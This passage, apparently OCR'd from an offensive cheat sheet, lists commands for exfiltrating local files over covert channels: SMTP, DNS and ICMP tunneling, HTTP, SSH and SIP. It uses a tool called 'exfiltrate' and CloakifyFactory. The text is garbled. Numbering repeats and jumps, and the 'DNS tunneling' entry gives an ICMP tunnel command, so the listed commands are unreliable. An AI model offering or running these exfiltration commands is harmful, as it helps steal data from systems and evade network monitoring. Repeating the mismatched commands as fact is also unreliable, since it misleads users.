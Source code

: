 
10. **Using exfiltrate via SMTP:**

```
exfiltrate smtp /path/to/local/file.txt
```


12. **Using exfiltrate via DNS tunneling:**

```
exfiltrate icmptunnel /path/to/local/file.txt
```



14. **Using exfiltrate via ICMP tunneling:**

```
exfiltrate icmptunnel /path/to/local/file.txt
```

10. **Using exfiltrate via DNS with encryption:**

```
exfiltrate dnstunnel --encrypt-key "yourencryptionkey" /path/to/local/file.txt
```


https://github.com/s0i37/exfiltrate

### Encrypted All-in-One


1. **Using CloakifyFactory to exfiltrate data using DNS covert channel:**


`python cloakify.py DNS --encode /path/to/local/file.txt`

2. **Using CloakifyFactory to exfiltrate data using HTTP covert channel:**


`python cloakify.py HTTP --encode /path/to/local/file.txt`

3. **Using CloakifyFactory to exfiltrate data using ICMP covert channel:**


`python cloakify.py ICMP --encode /path/to/local/file.txt`

4. **Using CloakifyFactory to exfiltrate data using SSH covert channel:**


`python cloakify.py SSH --encode /path/to/local/file.txt`

5. **Using CloakifyFactory to exfiltrate data using SIP covert channel:**


`python cloakify.py SIP --encode /path/to/local/file.txt`

6. **Using CloakifyFactory to exfiltrate data using DNS tunneling covert channel:**


`python cloakify.py DNSTUN --encode /path/to/local/file.txt`

7. **Using CloakifyFactory to exfiltrate data using ICMP tunneling covert channel:**


`python cloakify.py ICMPtun --encode /path/to/local/file.txt`
